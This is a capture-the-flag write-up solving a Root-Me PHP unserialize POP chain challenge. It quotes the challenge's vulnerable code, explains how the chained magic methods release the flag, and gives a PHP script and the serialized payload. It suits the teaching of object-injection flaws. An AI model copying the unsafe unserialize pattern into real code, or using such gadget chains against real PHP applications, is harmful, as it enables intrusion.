 ```yaml
---
title: "Rootme CTF - POP chain"
tags:
  - PHP sec
  - code Review
  - web
  - CTF 
---
```

# Some POP Chains in PHP

### 1. Rootme: PHP - Unserialize Pop Chain.

The question gives the source code and here is what to look for:

```php
<?php

$getflag = false;

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't see to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
            }
        }
    }
}

class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}

?>

```

### Analysis:

The post takes in the parameter data via the POST method and unserializes it. There are 2 classes: `GetMessage` and `WakyWaky`. The flag will be retrieved in the magic method of the class `GetMessage::__destruct()`.

```php
phpCopy code
if ($getflag) {
    include("flag.php");
    echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
}

```

So the condition to get the flag is:

1. `__destruct()` executed: this is a magic method in PHP that will be executed when the object is destroyed or the program ends (not executed when the program ends by the `die()`).
2. The value `receive` of the object given by the class `GetMessage` is "HelloBooooooy".
3. `$getflag` has the value `true`.

### Practice:

The first thing to do is to avoid the appearance of the function `__destruct()`. We see in the class `GetMessage`:

```php
function __construct($receive) {
    if ($receive === "HelloBooooooy") {
        die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
    } else {
        $this->receive = $receive;
    }
}

```

This is a magic method that executes when the object is initialized. However, if the initialization always assigns `$receive` a value of "HelloBooooooy", it will be false because it executes `die()`, so it needs to be assigned after initialization and the method `__toString()` in the class `WakyWaky` must be executed because it can do this:

```php
return (new GetMessage($this->msg))->receive;

```

Continue to set the `$getflag` variable to `true` as we see in the class `WakyWaky`:

```php
function __toString() {
    global $getflag;
    $getflag = true;
    return (new GetMessage($this->msg))->receive;
}

```

`__toString()` is a magic method that is executed when an object created by that class is used as a string. For example: `echo`, `print`, `preg_match()`, …

Notice that in the same class there is:

```php
function __wakeup() {
    echo "[YOU]: ".$this->msg."<br>";
}

```

When `$this->msg` is an object of a class `WakyWaky`, that object will execute `__toString()`. So to execute `__wakeup()` is fine, this is also a magic method executed when the object is unserialized => The object needs to be passed into the constructor `unserialize()` by the class `WakyWaky`.

### Script Summary:

```php
<?php
$getflag = false;
class GetMessage
{
    public $receive;
}
class WakyWaky
{
    public $msg;
    function __construct($msg)
    {
        $this->msg = $msg;
    }
}
$a = new GetMessage('');
$a->receive = 'HelloBooooooy';

$b1 = new WakyWaky($a);
$b2 = new WakyWaky($b1);
echo serialize($b2);

```

### Payload:

```css
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}

```